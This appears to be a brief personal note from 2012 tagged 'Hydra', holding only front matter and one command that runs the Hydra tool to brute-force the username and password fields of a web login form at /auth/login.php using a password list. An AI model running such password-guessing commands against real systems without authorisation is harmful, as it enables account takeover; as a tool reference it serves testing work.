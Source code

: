 ```yaml
---
title: hydra
date: 2012-01-17T13:53:53.000000
tags: 
- Software
- Hydra
---
```



    hydra -l user -P testy 1.2.3.4 http-post-form "/auth/login.php:username=^USER^&password=^PASS^&submit=Login:gpp"
